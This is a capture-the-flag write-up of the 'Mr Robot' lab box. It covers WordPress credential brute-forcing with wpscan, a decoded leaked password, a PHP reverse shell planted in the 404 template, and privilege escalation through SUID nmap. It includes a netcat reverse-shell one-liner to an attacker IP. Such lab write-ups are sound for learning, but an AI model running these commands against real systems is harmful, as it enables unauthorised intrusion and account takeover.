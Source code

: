 ```yaml
---
title: Mr Robot
tags:
- writeups
---
```


## Recon
![[write-ups/images/Pasted image 20220823155358.png]]

### Web Analysis
If we go to the home page of the website, there's some cool looking booting animation & then we have a lot of options to choose from
![[write-ups/images/Pasted image 20220823160005.png]]

Given the box is themed around the [Mr Robot series](https://www.imdb.com/title/tt4158110/), it aludes to some of the show's topics & ideology, but nothing to helpfull for us. I ran `gobuster` in the background & decided to check out `robots.txt`, which revealed 2 files

![[write-ups/images/Pasted image 20220823160356.png]]

There's our first flag + a potential wordlist for brute-forcing somebody's password.

Going back to `gobuster` we got quite some hits:
![[write-ups/images/Pasted image 20220823160635.png]]

## From wordpress credentials to RCE
Seems that it runs WordPress => ran `wpscan` in the background. While that ran I wanted to check if I could use `xmlrpc.php` to [[|brute-force credentials]] => send this req with Burp
![[write-ups/images/Pasted image 20220823161415.png]]
Now I was looking for any of the following methods in the response: `wp.getUserBlogs`, `wp.getCategories` or `metaWeblog.getUsersBlogs`. A faster way to brute-force credentials is using `system.multicall` as we can try several credentials on the same request *(if confused, see [[Attacking Wordpress]])*

So yeah we could make `wpscan` do the work for us & run a brute-force attack *(since the theme is mr robot I figured the name should be elliot)*: `wpscan -P fsocity.dic -U elliot --password-attack xmlrpc-multicall --url http://10.10.13.131/`

I still haven't look at all the results from `gobuster`, so I tinkered through them & found a peculiar endpoint: `/license`:
```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
.... < some random data> ....
do you want a password or something?
.... < more random data> ....
ZWxsaW90OkVSMjgtMDY1Mgo=
```
Ok.. let's try base64 decode this?

![[write-ups/images/Pasted image 20220823162623.png]]

And we got the user & password 😆 without brute-forcing. However, we could have a look and see if the pass was in our dictionary: `cat fsocity.dic| grep ER28-0` which it is, so the attack would be successfull.

Now that we're in the WordPress dashboard we can go to `Appearance -> Editor -> 404 Template` & replace it with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Then save & navigate to a random nonexistent page to trigger our payload
![[write-ups/images/Pasted image 20220823163301.png]]

Now that we got a shell, let's do some basic enumeration.

![[write-ups/images/Pasted image 20220823163814.png]]

We can't read the 2nd flag since we're not the `robot` user, but we have it's md5 password hash. Plugging it in [crackstation](https://crackstation.net/) reveals it: `abcdefghijklmnopqrstuvwxyz`. Consequently, we can now switch to the `robot` user: 
```bash
su robot
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.12.227 1337 >/tmp/f
```

## Classic SUID privesc
Looking @ the suid files:

![[write-ups/images/Pasted image 20220823164832.png]]

We find [nmap](https://gtfobins.github.io/gtfobins/nmap/) which can be started in `--interactive` mode & be used to exeecute shell commands:
![[write-ups/images/Pasted image 20220823165000.png]]


## Refs
- [WordPress Haktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)

## See Also
- [[Attacking Wordpress]]
- [[write-ups/THM]]
